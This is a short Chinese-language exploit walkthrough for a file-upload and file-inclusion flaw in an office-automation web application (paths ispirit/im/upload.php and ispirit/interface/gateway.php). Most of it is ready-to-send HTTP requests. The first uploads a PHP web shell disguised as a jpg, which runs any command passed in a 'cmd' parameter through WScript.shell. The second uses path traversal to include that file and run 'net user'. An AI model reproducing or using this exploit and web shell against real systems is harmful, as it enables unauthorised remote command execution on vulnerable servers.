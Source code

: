 ##### 任意命令执行漏洞

路径为：ispirit/im/upload.php

抓包构造POC：

```plain
POST /ispirit/im/upload.php HTTP/1.1
Host: localhost:999
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
Cookie: PHPSESSID=123
Connection: close
Content-Length: 660
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="UPLOAD_MODE"
2
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="P"
123
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="DEST_UID"
1
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
Content-Type: image/jpeg
<?php
$command=$_POST['cmd'];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
------WebKitFormBoundarypyfBh1YB4pV8McGB--
```

发送POC:

![202203011918952](https://img.yatjay.top/md/202203261028137.png)

查看上传成功的文件：

![202203011918180](https://img.yatjay.top/md/202203261028886.png)

前台文件包含漏洞：修改数据包，包含前面上传的jpg木马文件，即可实现执行任意命令。此处执行命令“net user”

```plain
POST /ispirit/interface/gateway.php HTTP/1.1
Host: localhost:999
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72
json={"url":"/general/../../attach/im/2108/1005943624.jpg"}&cmd=net user
```